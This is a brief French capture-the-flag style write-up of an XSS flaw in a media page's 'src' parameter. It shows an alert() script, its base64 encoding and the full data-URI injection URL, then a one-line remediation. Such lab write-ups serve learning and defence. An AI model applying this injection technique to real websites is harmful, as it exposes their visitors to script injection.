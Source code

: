 <h1>Faille</h1>

Sur le 3eme logo, il y a une photo de la NSA qui est chargé par un lien sous la form de "?page=media&src=nsa"
c'est une faille XSS on peux mettre un script en src sous base 64
<h3>Exemple:</h3>

<script>
    alert("1337");
</script>

Nous allons l'encoder en base 64, ce qui donne :

`PHNjcmlwdD4KICAgIGFsZXJ0KCIxMzM3Iik7Cjwvc2NyaXB0Pg==`

Ensuite le mettre en lien directement en src:
`?page=media&src="data:text/html;base64,PHNjcmlwdD4KICAgIGFsZXJ0KCIxMzM3Iik7Cjwvc2NyaXB0Pg=="`

<h1>Éviter cette faille</h1>

Il faut pas inserer directement la data de l'url dans la page
